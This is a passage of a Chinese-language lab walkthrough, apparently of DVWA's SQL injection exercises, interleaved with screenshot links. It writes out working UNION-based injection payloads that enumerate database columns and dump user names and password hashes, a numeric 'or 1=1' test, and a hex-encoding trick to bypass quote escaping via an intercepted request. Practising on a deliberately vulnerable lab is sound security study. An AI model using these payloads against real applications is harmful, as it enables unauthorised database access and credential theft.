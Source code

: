     [![DzeSsI.jpg](https://s3.ax1x.com/2020/12/07/DzeSsI.jpg)](https://imgchr.com/i/DzeSsI)

        爆字段：
        -1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #

    [![Dzemyn.jpg](https://s3.ax1x.com/2020/12/07/Dzemyn.jpg)](https://imgchr.com/i/Dzemyn)

        获取列表：
            -1' union select 1,group_concat(0x7c,user,0x7e,password,0x7c) from users #

            或者-1' union select user,password from users #

    [![DzetyR.jpg](https://s3.ax1x.com/2020/12/07/DzetyR.jpg)](https://imgchr.com/i/DzetyR)

        获取到的密码是经过MD5加密的

    源码分析：

    [![DzeBFO.jpg](https://s3.ax1x.com/2020/12/07/DzeBFO.jpg)](https://imgchr.com/i/DzeBFO)

    发现没有任何过滤，完全信任用户输入的内容，限制显示条数...没什么用

    >做完了才发现原来这是high级别的...

    

* medium

        发现这次查询改用了下拉菜单选项

    [![DzfVyT.jpg](https://s3.ax1x.com/2020/12/08/DzfVyT.jpg)](https://imgchr.com/i/DzfVyT)

        不能直接进行输入了，只能使用已经给出的数值

        但是可以抓包来看一下传输的数据

    [![DzfZOU.jpg](https://s3.ax1x.com/2020/12/08/DzfZOU.jpg)](https://imgchr.com/i/DzfZOU)

        看到页面是通过传输id这个参数来控制查询的，就可以以这个id为注入点进行注入，用bp转发器模块(repeater)，修改参数


        1.先单引号测试类型，但是单引号被转义了

    [![Dzf8l6.jpg](https://s3.ax1x.com/2020/12/08/Dzf8l6.jpg)](https://imgchr.com/i/Dzf8l6)

        2.构造永真，得出为数字型

        id=1 or 1=1

    [![Dzf0fI.jpg](https://s3.ax1x.com/2020/12/08/Dzf0fI.jpg)](https://imgchr.com/i/Dzf0fI)

        3.爆库

        0 union select 1,database() #

    [![DzfOAJ.jpg](https://s3.ax1x.com/2020/12/08/DzfOAJ.jpg)](https://imgchr.com/i/DzfOAJ)

        4.爆表
        单引号被转义，采用十六进制绕过(存疑)

        id=0 union select 1,concat(column_name) from information_schema.columns where table_name=0x7573657273 #
    
    [![Dz7t29.jpg](https://s3.ax1x.com/2020/12/08/Dz7t29.jpg)](https://imgchr.com/i/Dz7t29)
